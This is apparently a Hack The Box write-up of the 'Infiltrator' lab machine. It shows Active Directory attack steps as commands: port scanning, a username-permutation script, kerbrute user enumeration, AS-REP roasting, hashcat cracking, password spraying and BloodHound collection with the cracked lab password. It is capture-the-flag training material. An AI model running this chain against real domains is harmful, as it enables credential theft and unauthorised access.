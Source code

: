 # Infiltrator

## Rustscan 

```bash
 rustscan -a 10.10.11.31 --ulimit 9000 -- -sCV -A  
```
![rust](image.png)

![rust2](image-2.png)

`DNS:dc01.infiltrator.htb`

![dns](image-1.png)

Enumerating team members

![team](image-3.png)

```txt
David Anderson
Olivia Martinez
Kevin Turner
Amanda Walker
Marcus Harris
Lauren Clark
Ethan Rodriguez
```
python script to make usernames

```python
# List of names
names = [
    "David Anderson",
    "Olivia Martinez",
    "Kevin Turner",
    "Amanda Walker",
    "Marcus Harris",
    "Lauren Clark",
    "Ethan Rodriguez"
]

# Generate usernames
def generate_usernames(name):
    first_name, last_name = name.lower().split()
    usernames = [
        f"{first_name}.{last_name}",
        f"{first_name[0]}{last_name}",
        f"{first_name}_{last_name}",
        f"{first_name[0]}{last_name[0]}",
        f"{first_name[0]}.{last_name}",
        f"{first_name}.{last_name[0]}",
        f"{first_name}{last_name}"
    ]
    return usernames

# Generate and write the username list
with open("users.txt", "w") as f:
    all_usernames = []
    for name in names:
        all_usernames.extend(generate_usernames(name))
    
    # Remove duplicates and sort
    all_usernames = sorted(set(all_usernames))
    
    # Output result with domain suffix
    for username in all_usernames:
        f.write(f"{username}@infiltrator.htb\n")

print("Done")
```

## Kerbrute 

```bash
./kerbrute userenum -d "infiltrator.htb" users.txt --dc "dc01.infiltrator.htb"     
```
![kerbrute](image-4.png)

## preauth 

```bash
impacket-GetNPUsers infiltrator.htb/ -usersfile users.txt -dc-ip dc01.infiltrator.htb     
```

![preauth key](image-5.png)


## hashcat 

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt 
```

![hashcat](image-6.png)

`WAT?watismypass!`

## checking password

```bash
./kerbrute passwordspray -d "infiltrator.htb" users.txt --dc "dc01.infiltrator.htb" "WAT?watismypass!" -v  
```
```txt
2024/09/03 13:07:28 >  [!] d.anderson@infiltrator.htb:WAT?watismypass! - [Root cause: KDC_Error] KDC_Error: AS Exchange Error: kerberos error response from KDC: KRB Error: (37) KRB_AP_ERR_SKEW Clock skew too great
---snip---
2024/09/03 13:07:28 >  [!] l.clark@infiltrator.htb:WAT?watismypass! - Got AS-REP (no pre-auth) but couldn't decrypt - bad password

```

`d.anderson@infiltrator.htb` account is restricted because of


+ Logon Hours: The account might be restricted to log in only during specific hours or days.

+ Logon Workstations: The account might be restricted to log in only from specific workstations or computers.

+ Account Disabled: The account might be disabled or not allowed to log in.

+ Password Expiration or Change Requirement: The account might require the password to be changed on the next login, or the password has expired.

+ Domain Policy: There might be a domain policy in place that restricts the account from logging in under certain conditions (e.g., time of day, specific IP ranges).


## domain info collection
```bash
bloodhound-python -u 'l.clark' -p 'WAT?watismypass!' -d 'infiltrator.htb' -gc 'dc01.infiltrator.htb' -ns 10.10.11.31 -c all --zip        
```
```bash
bloodhound-python -u 'd.anderson' -p 'WAT?watismypass!' -d 'infiltrator.htb' -gc 'dc01.infiltrator.htb' -ns 10.10.11.31 -c all --zip        
```

